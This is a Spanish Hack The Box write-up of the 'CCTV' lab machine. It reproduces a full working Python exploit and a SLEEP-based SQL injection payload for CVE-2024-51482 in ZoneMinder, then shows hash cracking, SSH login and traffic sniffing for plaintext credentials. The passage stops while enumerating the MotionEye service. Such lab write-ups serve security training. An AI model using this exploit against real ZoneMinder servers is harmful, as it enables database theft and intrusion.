---

# Descripcion

La máquina CCTV de Hack The Box es un laboratorio de dificultad media que gira en torno a la explotación de una instancia vulnerable de ZoneMinder. Durante la intrusión aprovecharemos una vulnerabilidad de SQL Injection basada en tiempo para extraer credenciales de la base de datos y conseguir acceso inicial mediante SSH. Posteriormente, utilizaremos las capabilities de tcpdump para capturar tráfico de red y descubrir nuevas credenciales. Finalmente, explotaremos una vulnerabilidad en MotionEye para conseguir ejecución de comandos y escalar privilegios hasta root.

---


# Enumeración

## Nmap

- **Nmap**

> Comenzamos realizando un escaneo completo de puertos para identificar los servicios expuestos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv -sS 10.129.8.159
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener información más detallada sobre los servicios y sus versiones.

```bash
nmap -p22,80 -sC -sV 10.129.8.159
```



## Web

> Utilizamos WhatWeb para identificar las tecnologías empleadas por la aplicación web.

```bash
whatweb http://cctv.htb
```




> Accedemos a la página web y nos encontramos con el siguiente contenido:


- **Panel de login**



> Probamos algunas de las combinaciones de usuario y contraseña más habituales y conseguimos acceder utilizando las credenciales `admin:admin`.



# Shell como mark

## SQLi - CVE-2024-51482

> Una vez dentro, identificamos que la aplicación utiliza `ZoneMinder v1.37.63`. Buscamos vulnerabilidades asociadas a esta versión y encontramos `CVE-2024-51482`, una vulnerabilidad de tipo `SQL Injection` basada en tiempo (*Time-Based Blind SQLi*).

- La ruta vulnerable es:

`zm/index.php?view=request&request=event&action=removetag&tid=1`

- Para comprobar la vulnerabilidad, añadimos después del valor `1` el siguiente payload:

`AND (SELECT 1 FROM (SELECT SLEEP(10)) as dummy)`

> Si la inyección se ejecuta correctamente, la página tardará aproximadamente 10 segundos adicionales en responder, lo que nos permite confirmar la existencia de la vulnerabilidad.

> Para automatizar la explotación y facilitar la extracción de información de la base de datos, vamos a utilizar el siguiente script:

```bash
https://github.com/BridgerAlderson/CVE-2024-51482/blob/main/CVE-2024-51482.py
```

> [!NOTE]
> El siguiente código procede del repositorio de GitHub indicado anteriormente. Todos los derechos y créditos corresponden a su creador original.

```python
#!/usr/bin/env python3
"""
CVE-2024-51482 - ZoneMinder Blind SQL Injection PoC
"""

import requests
import urllib.parse
import sys
import argparse
import time
from typing import Optional, List, Dict

GREEN = '\033[0;32m'
ORANGE = '\033[0;33m'
RED = '\033[0;31m'
CYAN = '\033[0;36m'
YELLOW = '\033[1;33m'
RESET = '\033[0m'

class ZoneMinderExploit:
    def __init__(self, ip: str, username: str, password: str, debug: bool = False):
        self.ip = ip
        self.username = username
        self.password = password
        self.debug = debug
        self.session = requests.Session()
        self.session.headers.update({
            'X-Requested-With': 'XMLHttpRequest',
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36'
        })
        self.baseline_time = 0.1
        self.logged_in = False
        self.base_url = f"http://{ip}/zm"

    def log(self, message: str, color: str = "", level: str = "info") -> None:
        if level == "debug" and not self.debug:
            return
        prefix = {
            "info": f"{ORANGE}[*]{RESET}",
            "success": f"{GREEN}[+]{RESET}",
            "error": f"{RED}[-]{RESET}",
            "warning": f"{YELLOW}[!]{RESET}",
            "debug": f"{CYAN}[D]{RESET}"
        }.get(level, f"{ORANGE}[*]{RESET}")
        
        print(f"{prefix} {color}{message}{RESET}")

    def login(self) -> bool:
        if self.logged_in:
            return True

        self.log(f"Logging in as '{self.username}' on {self.ip}...")
        
        login_url = f"{self.base_url}/index.php"
        login_data = {
            'action': 'login',
            'view': 'console',
            'username': self.username,
            'password': self.password
        }

        try:
            response = self.session.post(
                login_url, 
                data=login_data, 
                timeout=10, 
                allow_redirects=True
            )
            
            cookies = self.session.cookies.get_dict()
            if 'ZMSESSID' in cookies:
                self.logged_in = True
                self.log("Login successful", GREEN, "success")
                return True
            
            if "Invalid username or password" in response.text:
                self.log("Invalid credentials", RED, "error")
            else:
                self.log("Login failed - unexpected response", RED, "error")
            
            return False
            
        except requests.exceptions.ConnectionError:
            self.log(f"Failed to connect to {self.ip}", RED, "error")
            return False
        except Exception as e:
            self.log(f"Login error: {str(e)}", RED, "error")
            return False

    def send_payload(self, payload: str, timeout: Optional[float] = None) -> Optional[float]:
        encoded_payload = urllib.parse.quote(payload)
        url = f"{self.base_url}/index.php?view=request&request=event&action=removetag&tid={encoded_payload}"
        
        if timeout is None:
            timeout = 15

        try:
            start_time = time.time()
            self.session.get(url, timeout=timeout)
            elapsed = time.time() - start_time
            return elapsed
        except requests.exceptions.Timeout:
            return timeout
        except requests.exceptions.ConnectionError:
            self.log("Connection error", RED, "error")
            return None
        except Exception as e:
            self.log(f"Request error: {str(e)}", RED, "error")
            return None

    def measure_baseline(self, samples: int = 5) -> float:
        self.log("Measuring baseline response time...")
        
        times = []
        for i in range(samples):
            elapsed = self.send_payload("1", timeout=5)
            if elapsed is not None:
                times.append(elapsed)
            time.sleep(0.5)
        
        if not times:
            self.log("Could not measure baseline, using default 0.1s", YELLOW, "warning")
            return 0.1
        
        times.sort()
        baseline = times[len(times) // 2]
        
        self.log(f"Baseline median: {baseline:.3f}s", CYAN)
        self.baseline_time = baseline
        return baseline

    def check_vulnerability(self, sleep_time: int = 2) -> bool:
        if not self.logged_in and not self.login():
            return False

        self.log(f"Testing vulnerability with {sleep_time}s sleep...")
        
        payload = f"1 AND (SELECT * FROM (SELECT SLEEP({sleep_time})) as dummy)"
        
        elapsed = self.send_payload(payload, timeout=sleep_time + 3)
        if elapsed is None:
            return False
            
        self.log(f"Response time: {elapsed:.2f}s")
        
        if elapsed >= self.baseline_time + sleep_time - 0.5:
            self.log("Target is vulnerable!", GREEN, "success")
            return True
        else:
            self.log("Target does not appear vulnerable", RED, "error")
            return False

    def extract_char(self, query: str, position: int, sleep_time: int = 2) -> Optional[int]:
        low, high = 32, 126
        
        while low <= high:
            mid = (low + high) // 2
            
            payload = (
                f"1 AND (SELECT 1 FROM (SELECT SLEEP({sleep_time}) FROM DUAL "
                f"WHERE ASCII(SUBSTRING(({query}), {position}, 1)) > {mid}) as dummy)"
            )
            
            elapsed = self.send_payload(payload, timeout=sleep_time + 2)
            if elapsed is None:
                return None
            
            if elapsed >= sleep_time - 0.3:
                low = mid + 1
            else:
                high = mid - 1
        
        if 32 <= low <= 126:
            return low
        
        return None

    def extract_string(self, query: str, sleep_time: int = 2, 
                      max_length: int = 64, show_progress: bool = True) -> str:
        result = []
        
        for position in range(1, max_length + 1):
            char_code = self.extract_char(query, position, sleep_time)
            
            if self.debug and char_code:
                self.log(f"Position {position}: ASCII {char_code} = '{chr(char_code)}'", level="debug")
            
            if char_code is None or char_code == 0:
                break
            
            if char_code == 0:
                break
                
            result.append(chr(char_code))
            
            if show_progress:
                progress = ''.join(result)
                sys.stdout.write(f"\r{ORANGE}[*] Extracted: {progress}{RESET}")
                sys.stdout.flush()
        
        if show_progress:
            print()
        
        return ''.join(result)

    def enumerate_databases(self, sleep_time: int = 2) -> List[str]:
        self.log("Enumerating databases...")
        databases = []
        
        for offset in range(50):
            query = f"SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA ORDER BY schema_name LIMIT {offset},1"
            db_name = self.extract_string(query, sleep_time, max_length=64, show_progress=False)
            
            if not db_name or db_name.isspace():
                break
            
            db_name = db_name.strip()
            if db_name:
                self.log(f"Found database: {db_name}", GREEN, "success")
                databases.append(db_name)
            
            if db_name == "information_schema" or db_name == "informati":
                self.log("Note: Database name may be truncated. Use --debug for details.", YELLOW, "warning")
        
        return databases

    def enumerate_tables(self, database: str, sleep_time: int = 2) -> List[str]:
        self.log(f"Enumerating tables in '{database}'...")
        tables = []
        
        for offset in range(100):
            query = f"SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='{database}' ORDER BY table_name LIMIT {offset},1"
            table_name = self.extract_string(query, sleep_time, max_length=64, show_progress=False)
            
            if not table_name or table_name.isspace():
                break
                
            table_name = table_name.strip()
            if table_name:
                self.log(f"Found table: {table_name}", GREEN, "success")
                tables.append(table_name)
        
        return tables

    def enumerate_columns(self, database: str, table: str, sleep_time: int = 2) -> List[str]:
        self.log(f"Enumerating columns in '{database}.{table}'...")
        columns = []
        
        for offset in range(100):
            query = f"SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='{database}' AND table_name='{table}' ORDER BY column_name LIMIT {offset},1"
            column_name = self.extract_string(query, sleep_time, max_length=64, show_progress=False)
            
            if not column_name or column_name.isspace():
                break
                
            column_name = column_name.strip()
            if column_name:
                self.log(f"Found column: {column_name}", GREEN, "success")
                columns.append(column_name)
        
        return columns

    def dump_data(self, database: str, table: str, columns: List[str], 
                  sleep_time: int = 2, max_rows: int = 100) -> List[Dict]:
        self.log(f"Dumping data from '{database}.{table}'...")
        rows = []
        
        for row_num in range(max_rows):
            row_data = {}
            row_empty = True
            
            for column in columns:
                query = f"SELECT CONCAT(IFNULL(CAST({column} AS CHAR), 'NULL')) FROM {database}.{table} LIMIT {row_num},1"
                value = self.extract_string(query, sleep_time, max_length=128, show_progress=False)
                
                if value and value != 'NULL':
                    row_empty = False
                    row_data[column] = value
                else:
                    row_data[column] = ""
            
            if row_empty:
                break
                
            rows.append(row_data)
            self.log(f"Row {row_num + 1}: {row_data}", CYAN)
        
        return rows

    def dump_users(self, sleep_time: int = 2) -> List[Dict]:
        self.log("Dumping Users table from zm database...")
        
        all_columns = self.enumerate_columns('zm', 'Users', sleep_time)
        
        important_columns = ['Username', 'Password', 'Email', 'Enabled']
        available_columns = [col for col in important_columns if col in all_columns]
        
        if not available_columns:
            self.log("No important columns found in Users table", RED, "error")
            return []
        
        return self.dump_data('zm', 'Users', available_columns, sleep_time)


def main():
    parser = argparse.ArgumentParser(
        description='CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit',
        formatter_class=argparse.RawDescriptionHelpFormatter
    )
    
    parser.add_argument("-i", "--ip", required=True, help="Target IP address")
    parser.add_argument("-u", "--user", default="admin", help="Username (default: admin)")
    parser.add_argument("-p", "--password", default="admin", help="Password (default: admin)")
    parser.add_argument("--sleep", type=int, default=2, help="Sleep time for blind injection (default: 2)")
    parser.add_argument("--debug", action="store_true", help="Enable debug output")
    parser.add_argument("--no-color", action="store_true", help="Disable colored output")
    
    mode_group = parser.add_mutually_exclusive_group(required=True)
    mode_group.add_argument("--test", action="store_true", help="Test if target is vulnerable")
    mode_group.add_argument("--discover", action="store_true", help="Discover all databases")
    mode_group.add_argument("--tables", metavar="DATABASE", help="List tables in DATABASE")
    mode_group.add_argument("--columns", nargs=2, metavar=("DATABASE", "TABLE"), help="List columns in TABLE")
    mode_group.add_argument("--dump", nargs=3, metavar=("DATABASE", "TABLE", "COLUMNS"), 
                           help="Dump data from specified columns (comma-separated)")
    mode_group.add_argument("--users", action="store_true", help="Dump users table")

    args = parser.parse_args()

    if args.no_color:
        global GREEN, ORANGE, RED, CYAN, YELLOW, RESET
        GREEN = ORANGE = RED = CYAN = YELLOW = RESET = ""

    print(f"{CYAN}[*] CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit{RESET}")
    print(f"{CYAN}[*] Target: {args.ip}{RESET}\n")

    exploit = ZoneMinderExploit(args.ip, args.user, args.password, args.debug)

    if not exploit.login():
        sys.exit(1)

    baseline = exploit.measure_baseline()

    if not exploit.check_vulnerability(args.sleep):
        if not args.test:
            print(f"{RED}[-] Target not vulnerable. Exiting.{RESET}")
            sys.exit(1)
        else:
            sys.exit(0)

    try:
        if args.test:
            print(f"{GREEN}[+] Target is vulnerable!{RESET}")
            
        elif args.discover:
            databases = exploit.enumerate_databases(args.sleep)
            print(f"\n{GREEN}[+] Databases found:{RESET}")
            for i, db in enumerate(databases, 1):
                print(f"  {i}. {db}")
            
            if any(db == "informati" for db in databases):
                print(f"\n{YELLOW}[!] Note: 'information_schema' appears truncated to 'informati'{RESET}")
                print(f"{YELLOW}[!] This is a limitation of the blind injection technique{RESET}")
                print(f"{YELLOW}[!] The actual database name is 'information_schema'{RESET}")

        elif args.tables:
            tables = exploit.enumerate_tables(args.tables, args.sleep)
            print(f"\n{GREEN}[+] Tables in '{args.tables}':{RESET}")
            for i, tbl in enumerate(tables, 1):
                print(f"  {i}. {tbl}")

        elif args.columns:
            database, table = args.columns
            columns = exploit.enumerate_columns(database, table, args.sleep)
            print(f"\n{GREEN}[+] Columns in '{database}.{table}':{RESET}")
            for i, col in enumerate(columns, 1):
                print(f"  {i}. {col}")

        elif args.dump:
            database, table, columns_str = args.dump
            columns = [c.strip() for c in columns_str.split(',')]
            rows = exploit.dump_data(database, table, columns, args.sleep)
            print(f"\n{GREEN}[+] Total rows extracted: {len(rows)}{RESET}")

        elif args.users:
            users = exploit.dump_users(args.sleep)
            print(f"\n{GREEN}[+] Users extracted: {len(users)}{RESET}")
            for user in users:
                print(f"  {CYAN}User:{RESET} {user.get('Username', 'N/A')}")
                print(f"  {CYAN}Pass:{RESET} {user.get('Password', 'N/A')}")
                if user.get('Email'):
                    print(f"  {CYAN}Email:{RESET} {user['Email']}")
                print()

    except KeyboardInterrupt:
        print(f"\n{YELLOW}[!] Interrupted by user{RESET}")
        sys.exit(0)


if __name__ == "__main__":
    main()
```

# Extracción de credenciales

> Ejecutamos el script para enumerar las bases de datos disponibles:

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --discover
```



> Encontramos tres bases de datos. Vamos a centrarnos en `zm` y enumerar las tablas que contiene.

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --tables zm
```



> La tabla `Users` es la que nos interesa, ya que puede contener las credenciales de los usuarios. Volvemos a ejecutar el script, esta vez para extraer los campos `Username` y `Password`.

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --dump zm Users "Username,Password"
```



> Una vez obtenidos los hashes, vamos a intentar crackear la contraseña del usuario `superadmin` utilizando John the Ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



> Conseguimos recuperar la contraseña `admin`. Sin embargo, al intentar iniciar sesión con estas credenciales, no conseguimos acceder. Tampoco podemos utilizarlas para establecer una conexión SSH.

> Probamos ahora con el hash correspondiente al usuario `mark`. Para ello, introducimos previamente el hash en el archivo `hash` y volvemos a ejecutar John the Ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



> Probamos a conectarnos por SSH utilizando la contraseña `opensesame`.

```bash
ssh mark@10.129.8.159
```



> Conseguimos establecer conexión correctamente y obtenemos acceso como el usuario `mark`.

# Shell como root

## Enumeracion

> Una vez dentro de la máquina, comenzamos a enumerar el sistema en busca de posibles vectores de escalada de privilegios. Uno de los elementos que más nos llama la atención es `tcpdump`, ya que tiene capabilities asignadas.

```bash
getcap -r / 2>/dev/null
```



> Comprobamos las interfaces de red disponibles y observamos que hay bastantes. Por ello, vamos a utilizar `tcpdump` sobre todas las interfaces para capturar el tráfico de red.



> Iniciamos la captura y almacenamos todo el tráfico en un archivo PCAP. Posteriormente, transferiremos este archivo a nuestra máquina para analizarlo con Wireshark.

```bash
tcpdump -i any -v -w output.pcap
```



> Abrimos el archivo con Wireshark y encontramos tráfico interesante.



> Al inspeccionar uno de los paquetes, encontramos un usuario y una contraseña transmitidos en texto plano. Vamos a probar estas credenciales:

```text
user: sa_mark
password: X1l9fx1ZjS7RZb
```



> Conseguimos avanzar y encontramos la flag en el directorio personal del usuario.

# Port Forwarding - 9765

> Continuamos enumerando la máquina y comprobamos los puertos que están escuchando localmente. También realizamos una petición con `curl` al puerto `8765` para comprobar si existe algún servicio HTTP accesible.

```bash
ss -tulnp
curl 127.0.0.1:8765
```



> Como obtenemos una respuesta del servicio, vamos a crear un túnel SSH (*Local Port Forwarding*) para poder acceder a él desde nuestra máquina. Para establecer la conexión utilizamos la contraseña `opensesame`.

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

> Accedemos desde nuestro navegador a través del puerto local `8765` y encontramos un nuevo panel de login. Probamos las credenciales que hemos obtenido anteriormente.



> Ninguno de los usuarios y contraseñas que conocemos nos permite acceder al panel.

- **Enumeración de servicios**

> Para continuar investigando, listamos los servicios activos del sistema:

```bash
systemctl list-units --type=service
```



> Identificamos el servicio `motioneye`. Vamos a buscar archivos relacionados con esta aplicación para comprobar si encontramos información interesante, especialmente credenciales almacenadas en algún archivo de configuración.

```bash
find / -name "*motioneye*" 2>/dev/null
```



> En el archivo `/var/log/motioneye/motion.log` podemos consultar información sobre la versión de `motioneye` que está ejecutándose.

